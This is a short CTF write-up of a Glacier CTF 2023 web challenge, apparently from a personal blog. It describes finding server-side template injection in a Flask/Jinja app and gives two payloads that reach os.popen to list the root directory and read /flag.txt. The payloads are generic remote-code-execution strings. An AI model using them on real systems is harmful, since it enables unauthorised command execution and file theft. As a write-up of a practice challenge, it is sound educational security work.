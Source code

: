 ```yaml
---
author: pl4int3xt
layout: post
title: Glacier CTF 2023
date: '2023-11-25 10:44:23 +0300'
cover: img/cover_images/46.png
description: "Glacier CTF 2023"
categories: [CTF, Glacier CTF 2023]
---
```


> I just created my first website! You can even do some calculations! Don't forget to check out my other projects!
author: Chr0x6eOs
{: .prompt-info }

We open the website and there is nothing interesting and so we try to check out the other projects 

![img-description](/assets/img/glacier-ctf-2023/1.png)

We are brought to this page and immediately what pops in my brain is SSTI

![img-description](/assets/img/glacier-ctf-2023/2.png)

I try injecting something to see the changes and indeed the website has an SSTI

![img-description](/assets/img/glacier-ctf-2023/3.png)

Next let's check what's in the / directory and we see the file flag.txt using the following payload

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cd / && ls')['read']()}}{% endraw %}
```


![img-description](/assets/img/glacier-ctf-2023/4.png)

Next we create a payload to read the flag.txt file

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /flag.txt')['read']()}}{% endraw %}
```

![img-description](/assets/img/glacier-ctf-2023/5.png)

